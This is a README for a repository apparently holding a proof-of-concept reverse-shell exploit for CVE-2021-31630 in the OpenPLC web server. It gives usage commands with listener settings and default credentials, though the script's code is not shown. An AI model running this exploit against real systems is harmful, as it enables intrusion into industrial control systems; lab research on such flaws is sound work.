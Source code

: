 
# CVE-2021-31630 OpenPLC Webserver 3 Exploit

## Overview
This repository contains a Proof of Concept (PoC) exploit for **CVE-2021-31630**, a vulnerability in OpenPLC that allows remote code execution. After researching and analyzing multiple public exploits, I modified and adapted them for my own lab setup. By leveraging this exploit, I was able to gain a **reverse shell** and access the OpenPLC web server.

## Usage
To execute the exploit, run:

```bash
python3 OpenPlc-CVE-2021-31630.py -ip <LISTEN_IP> -p <LISTEN_PORT> -u <USERNAME> -pwd <PASSWORD>
```

Example:
```bash
python3 OpenPlc-CVE-2021-31630.py -ip 192.168.1.100 -p 1337 -u openplc -pwd openplc
```

## Arguments
- `-ip <LISTEN_IP>` : The IP address to listen on for the reverse shell.
- `-p <LISTEN_PORT>` : The port number to listen on.
- `-u <USERNAME>` : The username required for OpenPLC login.
- `-pwd <PASSWORD>` : The password required for OpenPLC login.

## Description
This exploit takes advantage of the **CVE-2021-31630** vulnerability found in OpenPLC, enabling an attacker to achieve **remote code execution**. By providing the necessary credentials and connecting to the OpenPLC web server, the script injects a payload that triggers a reverse shell, granting full access to the system.

## Author
Modified  by **Sulaiman Alhasawi**



